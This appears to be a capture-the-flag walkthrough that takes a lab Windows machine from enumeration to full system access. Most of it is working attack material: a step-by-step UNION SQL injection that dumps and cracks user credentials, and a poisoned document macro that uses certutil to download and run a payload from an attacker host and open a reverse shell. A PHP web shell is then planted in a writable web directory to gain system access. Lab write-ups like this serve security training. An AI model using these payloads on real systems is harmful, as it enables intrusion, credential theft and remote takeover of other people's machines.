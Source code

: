 sqlinjection, macro ,Messaging Application, Administrator Request, Exploiting Requests, Poisoned Document, System Access, User Files, Root Directory, Write Permissions, PHP File, Command Execution, Downloading Files

**Step 1: Enumerate SMB Services**

If SMB is active, use CrackMapExec to determine the machine type:
```bash
crackmapexec smb 10.10.10.71
```

List shared network resources using smbmap:
```bash
smbmap -H 10.10.10.71 -u 'null'
```

**Step 2: Enumerate Open Ports**

In cases with multiple open ports, start by checking HTTP or HTTPS services. Use the following command to quickly gather information on HTTP services:
```bash
for port in $(cat lognmap | grep http | grep -oP '\d{1,5}/tcp' | awk '{print $1}' FS="/"); do echo -e "[+] Port $port info:\n"; timeout 5 bash -c "whatweb 10.10.10.71:$port"; done
```

**Step 3: Fuzzing for Directories**

After a quick check of HTTP services, focus on port 8080 and the HTTPS service. Perform directory fuzzing on `https://10.10.10.71` using wfuzz:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclist/wordlist.txt https://10.10.10.71/FUZZ
```

**Step 4: Discovering Vulnerabilities**

While using wfuzz, you found the "exchange" directory, which redirects to a messaging application requiring a username and password. To discover vulnerabilities, also fuzz port 8080:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclist/wordlist.txt http://10.10.10.71:8080/FUZZ
```

You found the "complain" directory, which is a Complain Management System with a login panel and registration option. Register and log in. Search for vulnerabilities using searchsploit and found SQL injection vulnerabilities.

**Step 5: Exploiting SQL Injection**

Exploit the SQL injection vulnerability with the following steps:

- Identify the vulnerable URL:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans'
```

- Enumerate columns:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans order by 100-- -
```

- Determine the number of columns (e.g., 5 columns):
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans order by 5-- -
```

- Apply UNION SELECT to retrieve database name:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,database(),3,4,5-- -
```

- Enumerate existing databases:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,schema_name,3,4,5 from information_schema.schemata-- -
```

- Identify the "Secret" database and list its tables:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,table_name,3,4,5 from information_schema.tables where table_schema=0x536563726574-- -
```

- Find the "Users" table and list its columns:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,column_name,3,4,5 from information_schema.columns where table_schema=0x536563726574 and table_name=0x536563726574-- -
```

- Enumerate user credentials:
```bash
10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans union select 1,group_concat(Username,0x3a,Password),3,4,5 from Secret.Users-- -
```

**Step 6: Cracking Passwords**

The obtained credentials are in MD5. Crack these passwords using an MD5 hash cracking tool like CrackStation.

**Step 7: Gaining Access to the Messaging Application**

Use the cracked credentials to log in to the messaging application. Explore the emails and find a request from the administrator asking for a report.

**Step 8: Exploiting the Request**

Take advantage of the request to send a poisoned document:

```javascript
Sub OnLoad
	Shell("cmd /c certutil.exe -urlcache -split -f http://10.10.14.8/beacon.exe C:\Windows\Temp\beacon.exe && C:\Windows\Temp\beacon.exe -e cmd 10.10.14.8 1234")
End Sub
```

**Step 9: Gaining System Access**

Once you gain access, review user files and directories. Look for the "flag" file:

```bash
flag user c6f45142bea818fe729cef32342aae9c
```

If nothing interesting is found, navigate to the root directory to search for files or binaries to exploit. Discover "wamp64" and investigate it.

**Step 10: Exploiting Write Permissions**

Check if you can write content to the "www" directory within "wamp64" using `cacls www`. If you have write permissions, create a PHP file for command execution:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Download the `cmd.php` file on the victim machine:

```bash
certutil.exe -urlcache -split -f http://10.10.14.8/cmd.php cmd.php
```

Execute commands on the victim machine via the URL:

```bash
http://10.10.10.71:8080/cmd.php?cmd=whoami
```

Gain system access:

```bash
http://10.10.10.71:8080/cmd.php?cmd=C:\Windows\Temp\beacon.exe%20-e%20cmd%2010.10.14.8%2012345
```

**Step 11: Root Access**

Finally, obtain the root flag:

```bash
Root flag > 0b2ded66e5a49dd1620be30110f43d54
```

